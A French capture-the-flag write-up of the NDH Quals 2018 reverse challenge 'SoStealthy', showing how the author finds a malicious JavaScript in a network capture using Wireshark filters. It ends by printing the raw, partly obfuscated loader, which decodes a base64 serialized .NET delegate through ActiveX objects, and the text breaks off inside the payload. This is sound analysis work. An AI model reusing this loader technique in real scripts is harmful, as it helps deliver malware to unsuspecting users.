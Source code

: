 ```yaml
---
title: '[FRENCH] NDH Quals 18 : SoStealthy'
slug: so-stealthy
date: 04/01/2018
---
```


**SoStealthy** est une épreuve de reverse à 150 points, validée par pas mal
d'équipes.

![Enoncé de l'épreuve](/assets/sostealthy/intro.png)

Le scénario : une équipe réponse incident a fait une capture d'un réseau
infecté et c'est à nous de retrouver le **logiciel malveillant** qui a
circulé.

On commence par télécharger le fichier `suspicious.pcap` et on le charge
dans Wireshark. Le fichier est trop volumineux pour qu'on se fasse chaque
entrée à la main, du coup je scroll un peu au hasard et je fais des
*Clique droit > Suivre > Flux TCP* de temps en temps mais rien ne me saute
aux yeux, il va falloir des **filtres**...

En scrollant, j'ai remarqué qu'il y avait des **connections HTTP**. Un filtre
qui marche assez bien quand on est dans un scénario d'infection est
le suivant : `http contains function`. En effet, `function` est un mot clé
permettant de déclarer une fonction en **Javascript** et ce **langage est
souvent utilisé comme vecteur d'infection**.

![Wireshark filter](/assets/sostealthy/filter.png)

On a deux entrées qui ressortent. La première ne nous intéresse pas du tout,
c'est une page de warning genre "Attention, nous enregistrons vos cookies".
Il se trouve que cette page embarque du Javascript de tracking, ce qui
explique qu'on l'ai recupérée dans nos filets.

En revanche, quand on fait un *Clique droit > Suivre > Flux HTTP* sur la
deuxième, on tombe sur **un gros bloc de Javascript un peu obfusqué** :

![Wireshark paquet intéressant](/assets/sostealthy/packet.png)

_**Note** : On peut imaginer beaucoup d'autres variantes de ce filtre pour
identifier du Javascript. Par exemple, le mot clé `function` n'est
aujourd'hui plus du tout requis pour déclaré une fonction. Ainsi, il peut
etre intéressant de matcher sur des éléments de syntaxe plus modernes comme
`) => ` (bout de de déclaration en arrow function) ou bien `async`._

Voici le code brut, pas encore retravaillé :

```js
function setversion() {
}
function debug(s) {}
function Trololo(b) {
	var yei1Euthoo = new ActiveXObject("System.Text.ASCIIEncoding");
	var oPohToo1em = yei1Euthoo.GetByteCount_2(b);
	var apeuGho2aa = yei1Euthoo.GetBytes_4(b);
	var xieBaf0eeZ = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
	apeuGho2aa = xieBaf0eeZ.TransformFinalBlock(apeuGho2aa, 0, oPohToo1em);
	var do2quaiMie = new ActiveXObject("System.IO.MemoryStream");
	do2quaiMie.Write(apeuGho2aa, 0, (oPohToo1em / 4) * 3);
	do2quaiMie.Position = 0;
	return do2quaiMie;
}

var dei0eiFu = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"+
"AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph"+
```